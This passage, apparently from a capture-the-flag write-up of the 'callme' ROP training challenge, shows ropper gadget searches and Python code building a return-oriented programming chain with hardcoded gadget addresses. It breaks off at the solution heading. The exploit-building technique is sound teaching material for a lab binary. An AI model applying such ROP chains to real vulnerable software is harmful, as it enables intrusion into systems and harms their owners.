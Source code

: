 ```bash
$ ropper --file callme --search "pop rdi; ret"
0x0000000000401b23: pop rdi; ret;
```

Unfortunately, while I was able to also find one for `rdx`, I could not find an 
entry for `rsi`. This pushed me to read the docs on `ropper` a bit more and, 
after doing that, I tried a less-specific search:

```bash
$ ropper --file callme --search "pop rsi"
0x0000000000401b21: pop rsi; pop r15; ret;
0x0000000000401ab1: pop rsi; pop rdx; ret;
```

While the first one was OK, the second was extremely helpful as I could take 
care of both the second and third parameters at once.


## Building the ROP Chain

Having obtained the information we needed, I now just need to build up the rop 
chain. The process is strait-forward and looks like this:

```python
# set up our constants
call_one = 0x401850
call_two = 0x401870
call_three = 0x401810
pop_rdi = 0x401b23
pop_rsi_pop_rdx = 0x401ab1

# start by calling callme_one()
rop_chain = p64(pop_rdi, endian="little")
rop_chain += p64(0x1, endian="little")
rop_chain += p64(pop_rsi_pop_rdx, endian="little")
rop_chain += p64(0x2, endian="little")
rop_chain += p64(0x3, endian="little")
rop_chain += p64(call_one, endian="little")

# similar process repeats for callme_two() and callme_three()
```


## Solution

Having put everything together, I ran the script with the following results:
